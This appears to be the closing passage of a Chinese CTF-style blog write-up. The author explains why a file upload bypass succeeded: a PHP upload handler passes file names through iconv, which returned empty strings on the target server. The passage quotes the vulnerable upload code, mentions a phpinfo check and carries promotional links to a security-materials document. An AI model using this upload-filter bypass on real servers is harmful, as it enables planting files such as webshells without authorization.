

**呐，传上来了，能用了。**

喵喵落泪（【[网安资料](https://docs.qq.com/doc/DVFNpaGJvRFJiQ2Ro)】

又想了想，寻思着是不是 iconv 的锅啊，上传经过这个函数时候东西都没了……

```
 $up_file_name=empty($pic_alt)?date('YmdHis').rand(1,10000):$pic_alt;
$up_file_name2=iconv('UTF-8','GBK',$up_file_name);
$file_name=$path.$up_file_name2.'.'.$pic_name['extension'];

$pic_name=$_POST['pic_name'];
$pic_name = iconv('UTF-8','GBK',$pic_name); 
```

phpinfo 看一眼。

好家伙，看起来是因为没 libiconv 或者 glibc，所以这里面东西就变成空了……没事了。

## 小结

其实是一次因为想不通而开始的深入探究，唉，这题做起来不容易啊……

[想学网络安全的朋友可以关注私信我哦！！！](https://docs.qq.com/doc/DVFNpaGJvRFJiQ2Ro)